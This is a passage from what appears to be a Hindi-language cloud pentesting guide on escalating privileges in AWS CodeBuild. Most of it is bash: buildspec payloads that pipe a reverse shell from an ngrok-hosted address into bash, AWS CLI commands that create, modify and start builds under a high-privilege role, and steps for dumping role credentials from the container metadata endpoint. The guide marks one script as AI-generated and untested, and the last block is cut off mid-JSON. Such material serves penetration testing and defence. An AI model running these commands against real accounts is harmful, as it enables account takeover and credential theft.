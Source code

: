 {% tab title="उदाहरण2" %}
{% code overflow="wrap" %}
```bash
# Generated by AI, not tested
# Create a buildspec.yml file with reverse shell command
echo 'version: 0.2
phases:
build:
commands:
- curl https://reverse-shell.sh/2.tcp.ngrok.io:14510 | bash' > buildspec.yml

# Upload the buildspec to the bucket and give access to everyone
aws s3 cp buildspec.yml s3:<S3_BUCKET_NAME>/buildspec.yml

# Create a new CodeBuild project with the buildspec.yml file
aws codebuild create-project --name reverse-shell-project --source type=S3,location=<S3_BUCKET_NAME>/buildspec.yml --artifacts type=NO_ARTIFACTS --environment computeType=BUILD_GENERAL1_SMALL,image=aws/codebuild/standard:5.0,type=LINUX_CONTAINER --service-role <YOUR_HIGH_PRIVILEGE_ROLE_ARN> --timeout-in-minutes 60

# Start a build with the new project
aws codebuild start-build --project-name reverse-shell-project

```
{% endcode %}
{% endtab %}
{% endtabs %}

**संभावित प्रभाव:** किसी भी AWS Codebuild भूमिका के लिए सीधे प्रिवेस्क।

{% hint style="warning" %}
एक **Codebuild कंटेनर** में फ़ाइल `/codebuild/output/tmp/env.sh` सभी env vars को शामिल करती है जो **मेटाडेटा क्रेडेंशियल्स** तक पहुँचने के लिए आवश्यक हैं।

इस फ़ाइल में **env वेरिएबल `AWS_CONTAINER_CREDENTIALS_RELATIVE_URI`** शामिल है जो क्रेडेंशियल्स तक पहुँचने के लिए **URL पथ** को शामिल करता है। यह कुछ इस तरह होगा `/v2/credentials/2817702c-efcf-4485-9730-8e54303ec420`

इसे URL **`http://169.254.170.2/`** में जोड़ें और आप भूमिका क्रेडेंशियल्स को डंप करने में सक्षम होंगे।

इसके अलावा, इसमें **env वेरिएबल `ECS_CONTAINER_METADATA_URI`** भी शामिल है जो **कंटेनर के बारे में मेटाडेटा जानकारी प्राप्त करने के लिए पूर्ण URL** को शामिल करता है।
{% endhint %}

### `iam:PassRole`, `codebuild:UpdateProject`, (`codebuild:StartBuild` | `codebuild:StartBuildBatch`)

जैसे पिछले अनुभाग में, यदि आप एक निर्माण परियोजना बनाने के बजाय इसे संशोधित कर सकते हैं, तो आप IAM भूमिका को निर्दिष्ट कर सकते हैं और टोकन चुरा सकते हैं।
```bash
REV_PATH="/tmp/codebuild_pwn.json"

# Enumerate then env and get creds
REV="env\\\\n      - curl http://169.254.170.2\$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI"

# Get rev shell
REV="curl https://reverse-shell.sh/4.tcp.eu.ngrok.io:11125 | bash"

# You need to indicate the name of the project you want to modify
JSON="{
\"name\": \"<codebuild-demo-project>\",
\"source\": {
\"type\": \"NO_SOURCE\",
\"buildspec\": \"version: 0.2\\\\n\\\\nphases:\\\\n  build:\\\\n    commands:\\\\n      - $REV\\\\n\"
},
```